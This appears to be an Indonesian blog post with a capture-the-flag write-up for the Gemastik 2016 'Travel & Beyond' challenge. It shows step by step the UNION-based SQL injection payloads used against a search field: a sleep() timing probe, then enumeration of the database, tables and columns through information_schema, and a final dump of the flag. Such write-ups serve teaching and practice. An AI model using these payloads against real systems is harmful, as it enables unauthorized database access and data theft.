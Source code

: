 ```yaml
---
layout: post
title: "Writeup Gemastik 2016 : Travel & Beyond - 100"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
category: gemastik
tags: [gemastik,ctf]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![Travel & Beyond](/images/travel-beyond.png)


### Solusi :

Sesuai clue pada soal kita harus mencari cara untuk melakukan database dump. percobaan pertama kita mencoba melakukan
*SQL Injection* pada search, untuk memastikan SQL Injection kami menggunakan sleep(10) :

`x' union select sleep(10) from information_schema.tables where table_name like '%a#` < ERROR 


`x' union select sleep(10),1 from information_schema.tables where table_name like '%a#` < ERROR.

... SNIP ....

`x' union select sleep(10),1,1,1,1 from information_schema.tables where table_name like '%a#` < SLEEP TEREKSEKUSI ( NORMAL )

berarti pada table yang sebelum union di select memiliki 5 kolom. memuncul kan nama database dengan query :

`x' union select 1,database(),1,1,1 from information_schema.tables where table_name like '%a#` < travel

Mencari nama table : 

`x'  union select 1,table_name,1,1,1 from information_schema.tables where table_schema like '%travel#` < destination

Mencari table lain :

`x'  union select 1,table_name,1,1,1 from information_schema.tables where table_schema like 'travel' and table_name not like 'destination#` < flag

Mencari kolom flag :

`x' union select 1,column_name,1,1,1 from information_schema.columns where table_name like '%flag#` < flag

Dump Flag : 

`x'  union select 1,flag,1,1,1 from flag where flag like 'GEMASTIK#`

![Travel Beyond Flag](/images/travel-beyond-flag.png)